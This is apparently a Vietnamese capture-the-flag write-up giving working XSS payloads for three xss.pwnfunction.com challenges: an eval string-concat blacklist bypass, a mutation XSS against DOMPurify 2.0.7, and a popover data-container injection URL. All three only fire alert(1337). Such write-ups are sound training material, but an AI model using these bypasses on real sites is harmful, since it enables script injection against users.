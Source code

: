 <h1 align="center"> xss.pwnfunction.com </h1>
<hr />

## Mafia
Bypass blacklist bằng cách concat string.

> Payload

```js
eval(/aler/.source.concat(/t(1337)/.source))
```

## Ok, Boomer

Bug của DOMPurify version `2.0.7` có thể khai thác bằng XSS Mutation:
> Payload

```html
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1337)>
```

## Keanu

- Lợi dụng `popover show` để append DOM vào `number#number` thông qua `data-container`
- Ghi đè `#keanu` để trigger `popover show`
- Bypass chèn payload vào `number#number` thành một đoạn js code hợp lệ

> Payload

```
https://sandbox.pwnfunction.com/challenges/keanu.html?name=<button id="keanu" data-container="number#number" class="btn btn-primary btn-sm" data-toggle="popover" data-content="';alert(1337);//"></button>&number='
```
